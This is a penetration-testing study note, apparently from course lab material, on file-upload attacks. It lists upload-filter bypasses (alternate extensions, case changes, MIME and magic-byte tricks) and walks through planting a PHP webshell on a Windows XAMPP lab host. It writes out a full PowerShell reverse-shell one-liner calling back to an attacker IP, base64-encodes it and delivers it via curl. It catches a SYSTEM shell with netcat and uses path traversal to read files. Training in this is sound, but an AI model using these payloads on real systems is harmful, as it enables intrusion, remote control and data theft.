

---
tags:
  - phase/exploitation
  - rce
  - shell
---

# Using executable files

> [!tip] Quick Reference — File Upload
> | Bypass | Technique |
> |--------|-----------|
> | Extension filter | `.php5`, `.phtml`, `.phar`, `.pht`, `.php.jpg` |
> | MIME type | Change Content-Type to `image/jpeg` in Burp |
> | Magic bytes | Prepend `GIF89a` or `ÿØÿ` to PHP file |
> | Double extension | `shell.php.jpg` (if server executes first ext) |
> | Case variation | `shell.PhP`, `shell.PHP` |
> | Null byte | `shell.php%00.jpg` (old PHP) |

## Decision Tree

```
File upload functionality found?
├── [1] What extensions are allowed?
│   ├── Try uploading shell.php directly
│   │   ├── Accepted → upload and navigate to file
│   │   └── Blocked → try bypass techniques
│   │
├── [2] Extension bypasses
│   ├── Alternate PHP: .php5 .phtml .phar .php3
│   ├── Double ext: shell.php.jpg
│   └── Case: shell.PhP
│
├── [3] Content-Type bypass (Burp)
│   └── Upload .php file, intercept in Burp
│       └── Change Content-Type: application/x-php → image/jpeg
│
├── [4] Magic bytes bypass
│   └── Add GIF89a; to start of PHP file, save as shell.php.gif
│
├── [5] Find where files are uploaded
│   ├── Check page source for upload path
│   ├── Gobuster the uploads directory
│   └── Common paths: /uploads/ /files/ /media/ /images/
│
└── File accessible + executable → GET /uploads/shell.php?cmd=id
```

## Visual Flow



> [!success] What success looks like
> The upload succeeds ("File simple-backdoor.pHP has been uploaded"), and browsing to `uploads/simple-backdoor.pHP?cmd=dir` returns a directory listing of `C:\xampp\htdocs\meteor\uploads`. The encoded PowerShell payload then lands a shell in Netcat showing `nt authority\system`.

> [!danger] Common errors
> - "PHP files are not allowed" → the blacklist checks exact extensions; try case changes (`.pHP`) or alternates (`.php5`, `.phtml`, `.phar`).
> - Uploaded but won't execute → it landed somewhere not served as PHP, or the path is wrong; find the real uploads dir (gobuster) and confirm the URL.
> - Reverse shell never connects → start `nc -nvlp 4444` first, and URL-encode spaces (`%20`) in the curl command. See [[🔣 Encoding Reference]].
> Full list: [[⚠️ Common Errors & Troubleshooting]]

> [!tip] Beginner note
> A webshell is just a tiny script you upload that runs whatever command you pass it via a URL parameter (`?cmd=`). The whole game is getting that executable file past the upload filter and into a folder the server will actually run as code.

## Resources
- [HackTricks — File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload)
- [PayloadsAllTheThings — Upload Bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)


Depending on the web application and its usage, we can make educated guesses to locate upload mechanisms. If the web application is a Content Management System (CMS), we can often upload an avatar for our profile or create blog posts and web pages with attached files. If our target is a company website, we can often find upload mechanisms in career sections or company-specific use cases. For example, if the target website belongs to a lawyer's office, there may be an upload mechanism for case files. Sometimes the file upload mechanisms are not obvious to users, so we should never skip the enumeration phase when working with a web application.

> [!info] Recon the upload form
> This version of "Mountain Desserts" replaces the Admin link with a picture-upload form ("upload a picture to win a contest"). The XAMPP favicon and hints suggest it's now running XAMPP on Windows. First, test whether the form accepts a non-image by uploading a plain text file:

echo "this is a test" > test.txt

> [!info] test.txt accepted, PHP blocked
> Uploading `test.txt` succeeds ("File test.txt has been uploaded in the uploads directory"), proving the form isn't limited to images. Uploading `simple-backdoor.php` is rejected with "PHP files are not allowed! All PHP extensions are blacklisted." Since the filter's exact logic is unknown, bypass it by trial and error.

One method to bypass this filter is to change the file extension to a less-commonly used PHP file extension such as .phps or .php7. This may allow us to bypass simple filters that only check for the most common file extensions, .php and .phtml. These alternative file extensions were mostly used for older versions of PHP or specific use cases but are still supported for compatibility in modern PHP versions.

> [!info] Case-variation bypass
> A blacklist that only matches lower-case extensions can be beaten by changing the case. Renaming `simple-backdoor.php` to `simple-backdoor.pHP` passes the filter — "File simple-backdoor.pHP has been uploaded in the uploads directory". The message also confirms the files land in an `uploads` directory.


> [!example] Content-Type / MIME bypass in Burp
> If the server checks the multipart `Content-Type` header instead of (or in addition to) the extension, intercept the upload in Burp Proxy/Repeater and edit the part header before forwarding:
> ```
> Content-Disposition: form-data; name="file"; filename="shell.php"
> Content-Type: image/jpeg
> ```
> Keep the filename as `.php` (or a working bypass extension) — only the declared MIME type changes. Combine with magic bytes (prepend `GIF89a;` to the file contents) if the server also sniffs the first few bytes rather than trusting the header.


Browse to the uploaded webshell and pass a command via `cmd` to confirm execution. `cmd=dir` returns a directory listing of `C:\xampp\htdocs\meteor\uploads`, confirming code execution on the target:

curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=dir

> [!info] Upgrade to a reverse shell
> Start a Netcat listener in a separate terminal (`nc -nvlp 4444`) to catch the shell. For the payload use a PowerShell reverse-shell one-liner; because it contains many special characters, base64-encode it first (via PowerShell or a converter like base64encode.org).

powershell one-liner: $client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

Encode the one-liner with PowerShell on Kali: store it in `$Text`, then `Unicode`-encode and base64 it. The resulting `$EncodedText` is what you feed to `powershell -enc`.

pwsh
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.205",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
exit

Send the encoded one-liner to the uploaded webshell with `curl`, passing it via `powershell -enc` and URL-encoding the spaces (`%20`):

curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0
...
AYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA

The Netcat listener catches the connection. Running `whoami` in the shell returns `nt authority\system` — a SYSTEM shell on the target.

nc -nvlp 4444
ipconfig
whoami

Listing 35 shows that we received a reverse shell through the base64 encoded reverse shell one-liner. Great!

The same upload-to-webshell process works for other stacks (e.g. an ASP webshell for an ASP app). Kali ships webshells for many languages under `/usr/share/webshells/` — subdirectories include `asp`, `aspx`, `cfm`, `jsp`, `perl`, `php`, and a `laudanum` symlink:

ls -la /usr/share/webshells

Listing 36 shows us the frameworks and languages for which Kali already offers web shells. It is important to understand that while the implementation of a web shell is dependent on the programming language, the basic process of using a web shell is nearly identical across these frameworks and languages. After we identify the framework or language of the target web application, we need to find a way to upload our web shell. The web shell needs to be placed in a location where we can access it. Next, we can provide commands to it, which are executed on the underlying system.

We should be aware that the file types of our web shells may be blacklisted via a filter or upload mechanism. In situations like this, we can try to bypass the filter as in this section. However, there are other options to consider. Web applications handling and managing files often enable users to rename or modify files. We could abuse this by uploading a file with an innocent file type like .txt, then changing the file back to the original file type of the web shell by renaming it.

http://192.168.152.16/simple-backdoor.phP?cmd=cat%20../../../../../opt/install.txt

---
%% graph-links %%
## Related
- [[Using non-executable files]]
- [[Command Injection]]
- [[Remote file inclusion (RFI)]]

> [!info] Navigation
> Section: [[Web Applications/Common Web Application Attacks/File Upload Vulnerabilities/_index|File Upload Vulnerabilities]] · Home: [[🏠 Home]]

